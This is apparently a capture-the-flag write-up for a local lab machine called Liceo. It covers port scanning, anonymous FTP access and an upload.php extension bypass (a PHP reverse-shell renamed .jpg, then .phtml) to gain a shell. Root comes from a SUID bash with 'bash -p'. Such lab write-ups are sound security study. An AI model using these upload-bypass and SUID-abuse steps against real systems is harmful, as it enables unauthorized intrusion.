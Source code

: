 ```yaml
---
title: Liceo - Writeup
date: 2024-04 - 10
categories:
  - Writeups
tags:
  - Linux
  - Enumeration
  - PrivEsc
  - Ftp
  - File Upload
---
```


# Arp-scan 

 Detecting the ip of the machine

```bash
192.168.0.209 08:00:27:76:63:4b PCS Systemtechnik GmbH
```

# Ports

Starting with port scanning by using nmap

```bash
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000          191 Feb 01 14:29 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.101
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 68:4c:42:8d:10:2c:61:56:7b:26:c4:78:96:6d:28:15 (ECDSA)
|_  256 7e:1a:29:d8:9b:91:44:bd:66:ff:6a:f3:2b:c7:35:65 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Liceo
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 08:00:27:76:63:4B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

We can see that 80, 22 and 21 ports are opened
# FTP

```shell
lftp 192.168.0.209
lftp 192.168.0.209:~> user anonymous
lftp anonymous@192.168.0.209:~> ls
-rw-rw-r--    1 1000     1000          191 Feb 01 14:29 note.txt
lftp anonymous@192.168.0.209:/> cat note.txt 
Hi Matias, I have left on the web the continuations of today's work, 
would you mind contiuing in your turn and make sure that the web will be secure? 
Above all, we dont't want intruders...
```

# Url Enumeration

Use Dirsearch for directory discovery

```shell
dirsearch  -u http://192.168.0.209/
[04:51:20] 301 -  316B  - /uploads  ->  http://192.168.0.209/uploads/  [04:51:20] 200 -  408B  - /uploads/                                    [04:51:21] 200 -  233B  - /upload.php
```

we can see there is a 'upload.php', which we can probably use for FIle Upload
## File upload

We can use the webshell from /usr/share/webshells/php/php-reverse-shell.php 

```shell
cp /usr/share/webshells/php/php-reverse-shell.php ~/
cp php-reverse-shell.php shell1.jpg
```

once we uploaded it, we use burp to change into 'shell1.phtml', which can be successfully uploaded.

![](/assets/img/Liceo/upload_file.png)

Then we access '/uploads/shell1.phtml' and then we can get a low shell.

Under /home/dev, we are able to get the user flag.


## Privilege Escalation

```shell
find / -user root -perm /4000 2>/dev/null
/usr/bin/bash
```

then we can do 

```shell
/usr/bin/bash -p
```

and we can get root permission

